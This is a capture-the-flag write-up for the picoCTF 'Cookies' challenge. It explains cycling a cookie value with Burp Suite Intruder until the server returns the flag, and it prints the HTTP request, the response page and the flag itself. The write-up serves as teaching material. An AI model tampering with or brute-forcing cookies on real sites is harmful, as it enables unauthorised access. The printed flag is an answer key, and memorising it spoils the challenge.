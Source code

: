 # Cookies


### Desccription :
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:27177/

## Solution

As the name is 'Cookies', we can say that this is something about cookies.

when we enter some cookies name in input fild given it response something like ' I love COOKIE NAME cookies! '. we can not guess the currect cookie name, what we can do is we can change cookies value.

this website store cookies with value ' name:1 ' 

now we can change the value of that cookies ' name:1 ' manually like name:1, name:2, name:3 ..... and so on, or we can use burpsuit intruder for brutforcing this.

i use burpsuit intruder for this, in intruder set '1' as payload in ' name:1 ' and start attack. 

we can see that flag is in cookie ' name:18 '

```req
GET /check HTTP/1.1

Host: mercury.picoctf.net:27177

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://mercury.picoctf.net:27177/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: name=18

Connection: keep-alive
```

<details>
<summary markdown="span">Click to see Response : </summary>

```

HTTP/1.1 200 OK

Content-Type: text/html; charset=utf-8

Content-Length: 1184



<!DOCTYPE html>
<html lang="en">

<head>
    <title>Cookies</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Cookies</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF</p>
        </footer>

    </div>
</body>

</html>

```

</details>





#### flag :   picoCTF{3v3ry1_l0v3s_c00k135_064663be}